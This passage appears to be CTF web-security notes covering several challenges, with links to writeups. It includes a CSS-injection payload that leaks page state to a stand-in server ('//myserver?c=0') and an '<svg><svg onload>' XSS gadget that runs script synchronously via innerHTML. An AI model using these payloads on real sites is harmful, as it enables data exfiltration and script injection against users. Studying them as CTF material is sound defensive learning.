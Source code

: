``` html
<iframe srcdoc="
  <iframe name=defaultView src=/home></iframe><br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

My previous English writeup: https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/

### HITCON CTF 2022 - Self Destruct Message

Originally, when using `element.innerHTML = str`, it was asynchronous, but using the magical `<svg><svg>` can make it synchronous:

``` html
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

It will output 1 first and then 2, and it will take effect without inserting it into the DOM.

Related discussion: https://twitter.com/terjanq/status/1421093136022048775

Writeup: https://blog.huli.tw/2022/12/08/en/ctf-js-notes/#hitcon-ctf-2022

### SekaiCTF 2022 - Obligatory Calc

Two key points:

1. `e.source` in onmessage is the source window that sends the message. Although it looks like an object at first glance, if it is closed immediately after postMessage, it will become null.
2. Accessing `document.cookie` under a sandbox iframe will result in an error.

## Browser internals related

### GoogleCTF 2022 - POSTVIEWER

This question is related to the order in which the browser executes things, as well as site isolation and other things. Through these things, you can construct an iframe-related race condition.

Full writeup: https://blog.huli.tw/2022/07/09/en/google-ctf-2022-writeup/#postviewer-10-solves
